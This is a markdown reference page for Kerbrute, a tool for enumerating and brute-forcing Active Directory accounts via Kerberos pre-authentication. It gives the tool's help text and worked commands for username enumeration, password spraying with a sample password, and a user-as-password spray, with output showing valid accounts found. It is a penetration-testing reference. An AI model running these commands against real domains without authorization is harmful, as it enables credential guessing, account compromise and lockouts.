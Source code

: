```yaml
---
title : "Kerbrute"
# pre : ' '
description : "This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication."
date : 2021-02-15T13:24:03+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Other', 'Active Directory']
---
```


## Kerbrute

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.

A list of common used AD usernames can be downloaded [here](https://github.com/crypt0rr/common-ad-usernames).

### Installation

Download latest binary from [Github.com](https://github.com/ropnop/kerbrute/releases/latest)

### Usage

```plain
kerbrute [command]
```

### Flags

```plain
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

### Examples

#### Validate usernames against domain

After you succesfully enumerated [usernames](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) you can try ASREPRoasting with [Impacket GetNPUsers.py]({{< ref "getnpusers-py" >}}) or use [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}) to do a password spray.

```plain
$ ./kerbrute userenum --dc 10.10.10.10 -d offsec.nl usersnames.txt -o userenum-output.txt

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

2021/02/15 13:22:24 >  Using KDC(s):
2021/02/15 13:22:24 >      10.10.10.10:88

2021/02/15 13:22:24 >  [+] VALID USERNAME:     john@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     jane@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     johndo-adm@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     janedo-adm@offsec.nl
2021/02/15 13:22:24 >  Done! Tested 21 usernames (4 valid) in 0.017 seconds
```

To extract the valid usernames to a separate file you can use the following command.

```plain
cat userenum-output.txt | awk '{print $7}' | cut -d '@' -f1 > available-users.txt
```

#### Password spray

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames, filter them and use as input for the spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt Welkom01!

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop
```

#### Username as password

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames and use them as input for the 'user-as-pass' spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt --user-as-pass

   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/   \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 01/17/22 - Ronnie Flathers @ropnop

2022/01/17 15:35:28 >  Using KDC(s):
2022/01/17 15:35:28 >   10.10.10.10:88

2022/01/17 15:35:31 >  [+] VALID LOGIN:  svc_dcsync@offsec.nl:svc_dcsync
2022/01/17 15:35:38 >  Done! Tested 4393 logins (1 successes) in 9.460 seconds
```

### URL list

* [Github.com - kerbrute](https://github.com/ropnop/kerbrute)
